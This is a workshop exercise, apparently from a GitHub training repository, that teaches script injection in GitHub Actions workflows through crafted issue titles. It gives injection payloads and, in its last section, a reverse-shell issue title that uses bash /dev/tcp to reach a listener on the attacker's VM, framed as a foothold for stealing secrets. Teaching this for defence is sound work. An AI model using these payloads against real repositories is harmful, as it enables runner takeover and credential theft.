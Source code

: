 # Exercise 1 - :bomb: Exploiting the script injection vulnerability in the run command
The [Check issue title workflow](.github/workflows/check-issue-title.yml) uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
Because this value is provided by the user when they create a new issue, this provides an opportunity for an attacker to exploit the workflow with by crafting an issue title that tricks the script into executing code where it's expecting data.

If we open an issue with the title...
```
octocat"; ls -l $GITHUB_WORKSPACE"
```
...the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE""
```

This payload closes the initial quote, then ends the command with a semicolon. This allows the following `ls -s` command to run as a separate command.  

### Create an issue with the exploit payload
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `octocat"; ls -l $GITHUB_WORKSPACE"` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

<img width="1042" alt="Screenshot 2023-08-30 at 7 38 43 PM" src="https://github.com/robandpdx/workflow-script-injection/assets/95243761/e3fa3917-2834-45cc-a297-d25614c3185e">

Now let's look at the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) which uses an [action](.github/actions/check-issue-title-action/action.yml) using the run command. The [action](.github/actions/check-issue-title-action/action.yml) uses the issue title in the run command as follows:
```
if [[ "${{ inputs.issue-title }}" =~ ^octocat ]]; then
...
```
We'll need to craft a different payload for this because the input is used directly in the `if` statement. Let's try opening an issue with the following title...
```
" == $(ls -l $GITHUB_WORKSPACE) && "octocat
```
If we look at the run of the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) that was triggered using the payload we used above, we will notice that we don't see the output of the `ls -s $GITHUB_WORKSPACE` command in the logs. So, this workflow is not vulnerable, right? Wrong! This workflow is still vulnerable to script injection. Let's try using a different payload to see some evidence of that.  

If we open an issue with the title...
```
" == $(wget github.com) && "octocat
```
...the script looks like the following...
```
if [[ "" == $(wget github.com) && "octocat" =~ ^octocat ]]; then
...
```
This payload will cause the script to run `wget github.com` as it evaluates the if condition.  

Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `" == $(wget github.com) && "octocat` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title with action` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow log shows the output of the command `wget github.com`!  

### :imp: Getting a shell on the runner
Now let's try something a little more sinister...  
> **Note**: Because next part of this lesson requires a cloud VM with a public IP address, we will only demo this section in the workshop. We encourage you to go through this part of the exercise on your own after the workshop.  

1. Spin up a linux VM in the cloud that has a public IP address.
2. Open a command prompt and ssh into the VM
3. Run the command `nc -nvlp 1337` on the command prompt of the VM. This will cause the VM to listen on the port 1337.  
3. Next open a new issue in your repo with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`, replacing `<YOUR-VM-IP-ADDRESS>` with the public IP address of your cloud VM. This will cause the workflow to pipe the bash shell to your VM's IP address on port 1337.  
4. Now return to the command prompt window. As the worklfow runs, you will see your command prompt window drop into a shell on the runner. Now you have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  

